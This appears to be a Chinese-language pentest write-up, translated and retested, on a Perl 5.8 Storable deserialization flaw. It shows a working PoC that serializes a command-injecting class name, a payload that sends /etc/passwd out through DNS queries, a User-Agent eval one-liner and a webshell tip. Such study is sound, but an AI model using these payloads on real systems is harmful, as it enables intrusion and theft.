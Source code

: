 # PERL 5.8的反序列化

**from:**[http://www.agarri.fr/kom/archives/2016/02/06/deserialization_in_perl_v5_8/index.html](http://www.agarri.fr/kom/archives/2016/02/06/deserialization_in_perl_v5_8/index.html)

0x00 文章简单翻译
===========

* * *

在做渗透测试的时候，我发现有个应用程序包含了form表单，其中有一个经过base64编码的hidden属性的参数名叫"state"，包含了一些字符串和二进制数据。

```
$ echo  'BAcIMTIzNDU2NzgECAgIAwMAAAAEAwAAAAAGAAAAcGFyYW1zCIIEAAAAc3RlcAQDAQAAAAiAHgAAAF9fZ2V0X3dvcmtmbG93X2J1c2luZXNzX3BhcmFtcwQAAABkYXRh' | base64 -d | hd 
00000000  04 07 08 31 32 33 34 35  36 37 38 04 08 08 08 03  |...12345678.....|
00000010  03 00 00 00 04 03 00 00  00 00 06 00 00 00 70 61  |..............pa|
00000020  72 61 6d 73 08 82 04 00  00 00 73 74 65 70 04 03  |rams......step..|
00000030  01 00 00 00 08 80 1e 00  00 00 5f 5f 67 65 74 5f  |..........__get_|
00000040  77 6f 72 6b 66 6c 6f 77  5f 62 75 73 69 6e 65 73  |workflow_busines|
00000050  73 5f 70 61 72 61 6d 73  04 00 00 00 64 61 74 61  |s_params....data|

```

我打开了burpsuite的Intruder,做"Character frobber" fuzzing测试。通过返回的结果，我发现了一些有趣的东西。如图1：

![p1](http://drops.javaweb.org/uploads/images/62af64677e3e205b32f4364fe69513e0d85b2996.jpg)

页面返回的结果里暴露了目标使用Perl和Storable 2.7，经过Google搜索，我知道Storable是Perl的一个模块，是用来做数据序列化的。查看Storable的官方文档我们可以看到有个很大的安全提示：

> Some features of Storable can lead to security vulnerabilities if you accept Storable documents from untrusted sources. Most obviously, the optional (off by default) CODE reference serialization feature allows transfer of code to the deserializing process. Furthermore, any serialized object will cause Storable to helpfully load the module corresponding to the class of the object in the deserializing module. For manipulated module names, this can load almost arbitrary code. Finally, the deserialized object's destructors will be invoked when the objects get destroyed in the deserializing process. Maliciously crafted Storable documents may put such objects in the value of a hash key that is overridden by another key/value pair in the same hash, thus causing immediate destructor execution.

有关这个安全问题，youtube上有个叫“ Weaponizing Perl Serialization Flaws with MetaSploit”的视频，作者还把相关代码放在了github([https://github.com/lightsey/cve-2015-1592](https://github.com/lightsey/cve-2015-1592))，有了前人的经验，我想再应用到我的渗透项目里，应该不是太难：），但是经过一些测试后，我发现我不能按照前人的经验来应付我现在的渗透场景，Storable默认使用跨平台的nfreeze()函数来做序列化。例子代码如下：

```
#!/usr/bin/perl

use MIME::Base64 qw( encode_base64 );
use Storable qw( nfreeze );

{
    package foobar;
    sub STORABLE_freeze { return 1; }
}

# Serialize the data
my $data = bless { ignore => 'this' }, 'foobar';
my $frozen = nfreeze($data);

# Encode as Base64+URL and display
$frozen = encode_base64($frozen, '');
$frozen =~ s/\+/%2B/g;
$frozen =~ s/=/%3D/g;
print "$frozen\n";

```

当运行这段代码的时候，报错如下：

```
No STORABLE_thaw defined for objects of class foobar (even after a "require foobar;") at ../../lib/Storable.pm (autosplit into ../../lib/auto/Storable/thaw.al) line 366, at /var/www/cgi-bin/victim line 29
For help, please send mail to the webmaster (support@bigcorp.tld), giving this error message and the time and date of the error.

```

通过报错信息，我认为通过控制"foorbar"字符，尝试注入";"，或许可以注入恶意的Perl代码来运行:D，为了验证我的想法，我通过[https://metacpan.org/source/AMS/Storable-2.51/Storable.xs](https://metacpan.org/source/AMS/Storable-2.51/Storable.xs)查看源码，结果却很失望。

```
if (!Gv_AMG(stash)) {
        const char *package = HvNAME_get(stash);
        TRACEME(("No overloading defined for package %s", package));
        TRACEME(("Going to load module '%s'", package));
        load_module(PERL_LOADMOD_NOIMPORT, newSVpv(package, 0), Nullsv);
        if (!Gv_AMG(stash)) {
                CROAK(("Cannot restore overloading on %s(0x%"UVxf") (package %s) (even after a \"require %s;\")",
                       sv_reftype(sv, FALSE), PTR2UV(sv), package, package));
        }
}

```

通过在Storable.xs源码里搜索“`No STORABLE_thaw defined for objects`”报错信息，定位到了4388行的`load_module(PERL_LOADMOD_NOIMPORT, newSVpv(classname, 0), Nullsv);`这里仅仅调用了`load_module()`,并没有我想要的requrie功能，但是视频里不是这么说的，我又查看了2.15版本的Storable.xs源码[https://metacpan.org/source/AMS/Storable-2.15/Storable.xs](https://metacpan.org/source/AMS/Storable-2.15/Storable.xs)，经过源码对比，发现2.15版的Storable第4297行，多了`perl_eval_sv(psv, G_DISCARD);`

```
4295,4298c4387,4388
<               TRACEME(("Going to require module '%s' with '%s'", classname, SvPVX(psv)));
< 
<               perl_eval_sv(psv, G_DISCARD);
<               sv_free(psv);
---
>               TRACEME(("Going to load module '%s'", classname));
>               load_module(PERL_LOADMOD_NOIMPORT, newSVpv(classname, 0), Nullsv);

```

可以看到，object名(package名后面的字符)直接传入了`perl_eval_sv()`函数。Perl >=5.10以后会使用新的载入机制，所以不受该漏洞影响，而我的目标运行在Perl 5.8，5.8版的Perl在许多老的Linux发行版本(像 RHEL/CentOS 5)是默认安装的，是受此漏洞影响的。这里我只要把我的payload放到object名后面就可以了，我可以载入"POSIX"模块，然后通过`eval()`来运行系统命令。但是这里需要注意的object名的长度是252字节，但也足够我们写payload了。假设我想通过dns来获取返回信息，payload可以这样构造：

```
Socket;use MIME::Base64;sub x{$z=shift;for($i=0;$i<length($z);$i+=45){$x=encode_base64(substr($z,$i,$i+45),'');gethostbyname($x.".dom.tld");}} open(f,"/etc/passwd");while(<f>){x($_)}

```

payload可以构造的很短，比如通过User-Agent来获取命令，然后放入POSIX模块的eval()执行

```
POSIX;eval($ENV{HTTP_USER_AGENT});exit;

```

这里还有一个技巧：如果目标的CGI是不显错的，我可以通过`CGI:Carp的fatalsToBrowser`来把正常输出和报错信息都吐给浏览器，来实现一个简单的webshell。

我这里提供了[http://www.agarri.fr/docs/victim](http://www.agarri.fr/docs/victim)和[http://www.agarri.fr/docs/PoC_thaw_perl58.pl](http://www.agarri.fr/docs/PoC_thaw_perl58.pl)用来做测试练习。

0x01 本地实际测试
===========

* * *

我的测试代码如下：

```
#!/usr/bin/perl

use MIME::Base64 qw( encode_base64 );
use Storable qw( nfreeze );

print Storable->VERSION."\n";

{
    package foobar;POSIX;eval(system("uname"));exit;;;;;
    sub STORABLE_freeze { return 1; }
}

# Serialize the data
my $data = bless { ignore => 'this' }, 'foobar;POSIX;eval(system("uname"));;;;;;;';
my $frozen = nfreeze($data);

print $frozen;

# Encode as Base64+URL and display
$frozen = encode_base64($frozen, '');
$frozen =~ s/\+/%2B/g;
$frozen =~ s/=/%3D/g;
print "BASE64:$frozen\n";

```

如果只是本地测试，可以使用perlbrew来切换perl5.8.9和kali 1.10自带的perl 5.14.2,测试结果如图2所示：

![p2](http://drops.javaweb.org/uploads/images/2f39b461ffe2355c1f4dd24d7f2372d312540254.jpg)

可以看到perl 5.8.9是受漏洞影响的，而perl 5.14.2没有受影响。

接下来在测试下perl cgi,代码就用作者提供的[http://www.agarri.fr/docs/victim](http://www.agarri.fr/docs/victim)，作者提供的POC需要稍微改改，要不然获取不到命令执行结果，测试结果如图3所示：

![p3](http://drops.javaweb.org/uploads/images/85193829a7763dc52cbd1c191f98b6ce8dc88b7e.jpg)

0x02 参考文档：
==========

* * *

*   perl bless 用法实例：[http://blog.chinaunix.net/uid-28246152-id-3399154.html](http://blog.chinaunix.net/uid-28246152-id-3399154.html)
*   Weaponizing Perl Serialization Flaws with MetaSploit：[https://www.youtube.com/watch?v=Gzx6KlqiIZE](https://www.youtube.com/watch?v=Gzx6KlqiIZE)
*   The Storable security problem：[http://www.masteringperl.org/2012/12/the-storable-security-problem/](http://www.masteringperl.org/2012/12/the-storable-security-problem/)
*   Perl多版本共存之Perlbrew：[http://ju.outofmemory.cn/entry/138392](http://ju.outofmemory.cn/entry/138392)

感谢的人：  
多年来一直辅导我的月总